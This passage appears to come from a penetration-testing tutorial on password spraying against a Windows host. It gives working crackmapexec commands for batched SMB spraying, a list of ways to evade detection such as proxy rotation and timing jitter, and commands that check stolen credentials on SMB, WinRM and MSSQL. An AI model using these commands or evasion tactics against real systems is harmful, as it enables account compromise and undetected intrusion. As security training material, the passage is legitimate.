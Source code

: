 #### Batching Approach

Divide the user list into smaller batches:

```bash
# Split users file into batches of 5 users
split -l 5 users.txt batch_

# Process each batch
for batch in batch_*; do
    crackmapexec smb 172.16.5.5 -u $batch -p 'Spring2023!' --continue-on-success
    echo "Waiting 30 minutes before next batch..."
    sleep 1800
done
```

### Detection and Evasion Considerations

#### Common Detection Methods

1. **Threshold alerts**: Multiple failed attempts detected
2. **Source IP pattern**: Multiple attempts from the same IP
3. **Timing patterns**: Regular intervals between attempts
4. **Account coverage**: Failed attempts across many accounts
5. **Unusual authentication times**: Activity outside business hours

#### Evasion Techniques

1. **Rotate source IPs**: Use multiple exit nodes or proxies
2. **Add jitter**: Randomize timing between attempts
3. **Limit scope**: Target fewer accounts per spray
4. **Use expected credentials**: Start with the most likely passwords
5. **Timing selection**: Perform spraying during normal business hours

### After a Successful Spray

#### Credential Validation

Confirm that obtained credentials are valid:

```bash
# Validate SMB credentials
crackmapexec smb 172.16.5.5 -u found_user -p 'Spring2023!'

# Validate credentials against multiple services
crackmapexec smb 172.16.5.5 -u found_user -p 'Spring2023!'
crackmapexec winrm 172.16.5.5 -u found_user -p 'Spring2023!'
crackmapexec mssql 172.16.5.5 -u found_user -p 'Spring2023!'
```

#### Privilege Assessment

Determine the permissions of compromised accounts:

```bash
# Check if user has admin rights
crackmapexec smb 172.16.5.5 -u found_user -p 'Spring2023!' --shares

# Check if user has WinRM access
crackmapexec winrm 172.16.5.5 -u found_user -p 'Spring2023!' -X whoami
```
